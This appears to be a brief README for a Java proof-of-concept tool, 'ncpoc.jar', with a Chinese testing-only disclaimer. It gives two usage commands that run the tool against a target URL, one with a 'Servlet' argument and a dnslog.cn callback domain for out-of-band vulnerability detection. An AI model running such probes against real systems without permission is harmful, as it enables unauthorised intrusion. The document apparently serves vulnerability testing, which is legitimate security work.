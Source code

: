 此工具仅能dnslog漏洞测试，不可用于非法用途

java -jar ncpoc.jar http://target.com

java -jar ncpoc.jar http://target.com Servlet xxx.dnslog.cn
